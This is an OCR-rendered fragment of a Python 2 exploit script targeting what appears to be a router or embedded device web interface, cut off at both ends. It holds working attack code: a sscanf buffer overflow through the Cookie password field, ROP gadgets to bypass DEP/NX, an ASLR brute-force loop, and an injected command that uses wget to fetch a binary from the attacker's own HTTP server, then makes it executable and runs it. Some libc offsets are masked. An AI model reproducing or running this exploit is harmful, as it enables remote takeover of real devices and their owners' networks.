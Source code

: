 ```
                        print "[x] Error compiling code, check compiler? Read the README?"
                        return False
 
"""
* This function uses the SimpleHTTPServer module to create
* a http server that will serve our malicious binary.
* This function is called as a thread, as a daemon process.
"""
def start_http_server():
            Handler = SimpleHTTPServer.SimpleHTTPRequestHandler
            httpd = SocketServer.TCPServer(("", HTTPD_PORT), Handler)
 
            print "[+] Http server started on port %d" %HTTPD_PORT
            httpd.serve_forever()
           
 
"""
* This function presents the actual vulnerability exploited.
* The Cookie header has a password field that is vulnerable to
* a sscanf buffer overflow, we make use of 2 ROP gadgets to
* bypass DEP/NX, and can brute force ASLR due to a watchdog
* process restarting any processes that crash.
* This function will continually make malicious requests to the
* devices web interface until the DONE flag is set to True.
@Param host – the ip address of the target.
@Param port – the port the webserver is running on.
@Param my_ip – The ip address of the attacking system.
"""
def exploit(host, port, my_ip):
            global DONE
            url = "http://%s:%s/goform/exeCommand"%(host, port)
            i = 0
 
            command = "wget http://%s:%s/a -O /tmp/a && chmod 777 /tmp/a && /tmp/./a &;" %(my_ip, HTTPD_PORT)
 
            #Guess the same libc base continuosly
            libc_base = ****
            curr_libc = libc_base + (0x7c << 12)
 
            system = struct.pack("<I", curr_libc + ****)
 
            #: pop {r3, r4, r7, pc}
            pop = struct.pack("<I", curr_libc + ****)
            #: mov r0, sp ; blx r3
            mv_r0_sp = struct.pack("<I", curr_libc + ****)
 
            password = "A"*offset
            password += pop + system + "B"*8 + mv_r0_sp + command + ".gif"
 
            print "[+] Beginning brute force."
            while not DONE:
                        i += 1                 
                        print "[+] Attempt %d" %i
 
                        #build the request, with the malicious password field
                        req = urllib2.Request(url)                     
                        req.add_header("Cookie", "password=%s"%password)
 
                        #The request will throw an exception when we crash the server,
                        #we don't care about this, so don't handle it.
                        try:
                                    resp = urllib2.urlopen(req)
```